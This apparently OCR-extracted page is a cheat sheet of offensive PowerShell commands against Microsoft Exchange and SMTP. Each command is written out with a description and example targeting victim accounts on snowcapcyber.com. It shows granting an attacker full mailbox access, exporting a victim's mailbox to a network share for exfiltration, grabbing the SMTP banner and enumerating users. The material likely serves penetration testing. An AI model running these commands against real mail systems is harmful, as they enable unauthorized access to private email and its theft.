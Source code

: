 **Script/Command:**

```powershell
Add-MailboxPermission -User attacker@snowcapcyber.com -AccessRights FullAccess -Identity victim@snowcapcyber.com
```

**Description:**

Grants the attacker full access to the victim’s mailbox for privilege escalation.

**Example:**

Escalate privileges by granting attacker@snowcapcyber.com access to victim@snowcapcyber.com’s mailbox.

---

**Script/Command:**

```powershell
New-MailboxExportRequest -Mailbox victim@snowcapcyber.com -FilePath "\\server\share\export.pst"
```

**Description:**

Exports the victim’s mailbox contents to a PST file for data exfiltration.

**Example:**

Extract emails and data from victim@snowcapcyber.com to \\server\share\export.pst.

---

### SMTP Server

**Script/Command:**

```powershell
Test-NetConnection -ComputerName mail.snowcapcyber.com -Port 25
```

**Description:**

Connects to the SMTP server on port 25 to enumerate the SMTP banner, revealing server identity and version.

**Example:**

Retrieve the banner from mail.snowcapcyber.com to identify the SMTP software version.

---

**Script/Command:**

```powershell
Send-MailMessage -To user@snowcapcyber.com -From attacker@snowcapcyber.com -SmtpServer mail.snowcapcyber.com
```

**Description:**

Tests the existence of an email address by attempting to send a message, useful for SMTP user enumeration.
